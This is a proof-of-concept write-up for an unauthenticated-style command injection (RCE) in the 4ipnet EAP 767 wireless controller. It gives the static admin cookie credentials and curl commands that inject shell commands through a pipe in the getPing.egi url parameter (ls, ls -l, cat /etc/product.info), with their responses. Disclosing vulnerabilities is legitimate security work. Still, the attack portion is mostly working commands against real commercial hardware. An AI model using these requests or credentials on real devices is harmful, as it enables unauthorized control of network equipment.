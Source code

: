 # PoC for 4ipnet EAP 767

```zsh!
❯ curl -I http://{host}/
HTTP/1.1 302 Moved Temporarily
Date: Mon, 15 Jan 2024 01:10:14 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
ETag: "29e-122-2b9cb3e0"
Content-length: 88
Connection: keep-alive
Keep-Alive: timeout=60, max=100
Location: http://{host}/login.asp
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_1ab1ac81f80c42b992f6c4fc96be40e8.png)

After accessing the login page of the web service, it was discovered to be a 4ipnet wireless network controller
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_247c7496749603bc7b9772d11afd7ba4.png)


**Search online articles to obtain the default password for the device.**

**Web console features**
Overview
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_fa6cb02d32f831033c013c4142586a4f.png)

The management interface has the Home > Utilities > Network Utilities feature, allowing network tests such as ping, tracert, arping, etc., to be performed through the web page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_9925e6bd58df1d54d022f404504adbef.png)

## Exploit PoC
**PoC I @ Browser**

The front-end performs input text validation to check whether the input text is compliant
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_0d41715f59b4037ce1b9dcea6c9d31ce.png)

Turn to the backend, verify HTTP request characteristics from the network
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_b87e4fa1fea137d1feba67001f4ca104.png)
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_354d5ac2dd8284e800fa818cf166f489.png)


http request characteristics
```asp!
# request 1
http://{host}/getPing.egi?url=127.0.0.1

# request 2
http://{host}/getPing.egi?pid=940
```
:::info
It can be observed that its ping function first sends the url as a query string parameter, obtains the pid, then retrieves ping output in batches through the pid parameter, and finally presents the results on the web page
:::

It was found that the management interface relies solely on the cookie name/value as the basis for user identification
| Name | Value |
| -------- | -------- |
| username     | admin    |
| password     |  17lgP6vqCV1Ko   |

:::danger
Using the same set of credentials (admin), regardless of how many times you log in, the content of the cookie remains unchanged:::

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_3ecdb0b545bf10be16816293036534e8.png)


**PoC II @ cmd**

Using the curl tool to simulate an HTTP request to access the management interface home page, I was redirected to the login page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_f3925ef9b1edaae1b762ad800322d80d.png)

Using the curl tool to simulate an HTTP request and including the aforementioned obtained cookie, it was confirmed that access to the authenticated management interface home page is possible
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_a76b368249757b325d6f3bcc4ab24d88.png)

Attempted to access the `getPing.egi` page and escape the query string parameter url using special characters (;, |) in an attempt to evade security and inject a specified command
**Attemp I with `;`**
Detected as invalid characters by the backend program.
```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1;"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:49:25 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 29
Connection: keep-alive
Keep-Alive: timeout=60, max=100

Illegal Characters of URL.
OK%                              
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_6b5b52a9a94d27f7ace8850892ba7f77.png)

**Attemp II with `|`**
Successful escape!!! and obtained pid!!!

```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1|"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:52:49 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 4
Connection: keep-alive
Keep-Alive: timeout=60, max=100

3704%      
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_77cdaa3fe2e0c85b8506ec8aa926a65b.png)

Inject Target with `ls` to list the current directory.
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_686276a082e16b2f204e75e987d55b0f.png)

Inject Target with `ls -l` to display the current directory structure, file permissions, file types, modification dates, and other information."
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls%20-l"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_caee4f89b8ef4271c2f50521c479fe61.png)


:::success
Confirmed the presence of a Remote Code Execution (RCE) vulnerability in the product. Arbitrary commands can be executed by passing the url parameter: input_text + pipe + command
:::


## Verify the device brand and model.
```zsh!
curl -b "username=admin; password=17lgP6vqCV1Ko" "{host}/getPing.egi?url=|cat%20/etc/product.info"
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_c8581cfbd913fe193766cbad839cefc7.png)
## Reference
https://hkitblog.com/12770/
https://www.lienshen.com.tw/sidebar1_01-2-11.html
https://www.netadmin.com.tw/netadmin/zh-tw/snapshot/0E91A5D929C04C40AB6A6B88592725E1
